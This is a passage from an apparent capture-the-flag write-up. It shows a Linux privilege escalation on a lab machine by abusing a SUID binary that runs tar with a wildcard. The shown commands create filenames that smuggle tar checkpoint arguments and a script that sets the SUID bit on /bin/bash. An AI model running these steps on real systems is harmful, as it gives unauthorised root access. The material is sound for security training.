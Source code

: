 ```
john@keyring:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for john: 
Sorry, user john may not run sudo on keyring.
```

Examining the `home` directory, we see we do have a `suid` binary.

```
john@keyring:~$ ls -l
total 24
-rwsr-xr-x 1 root root 16784 Jun 20 11:25 compress
-rw-rw-r-- 1 john john   192 Jun 20 14:24 user.txt
```

We do not have `strings` installed, so we can't get a basic idea of what the binary might be calling, so we just have to execute it and see what happens.

```
john@keyring:~$ ./compress
john@keyring:~$ ls -l
total 44
-rw-rw-r-- 1 root root 20480 Nov  4 03:49 archive.tar
-rwsr-xr-x 1 root root 16784 Jun 20 11:25 compress
-rw-rw-r-- 1 john john   192 Jun 20 14:24 user.txt
```

Running it with no arguments appears to have generated a `tar` archive. Let's see what's inside.

```
john@keyring:~$ tar xvf archive.tar 
compress
tar: compress: Cannot open: File exists
user.txt
tar: Exiting with failure status due to previous errors
```

It looks like it archives `john`'s home directory. Looking over [gtfobins](https://gtfobins.github.io/gtfobins/tar/), it might be possible to try to exploit this. Since we can't pass any extra arguments to `tar`, perhaps we can create files with the right arguments to exploit the application.

```
john@keyring:~$ touch ./"--checkpoint-action=exec=sh script.sh"       
john@keyring:~$ touch ./"--checkpoint=1"                              
john@keyring:~$ vi script.sh
john@keyring:~$ cat script.sh 
#!/bin/bash
chmod +s /bin/bash
```
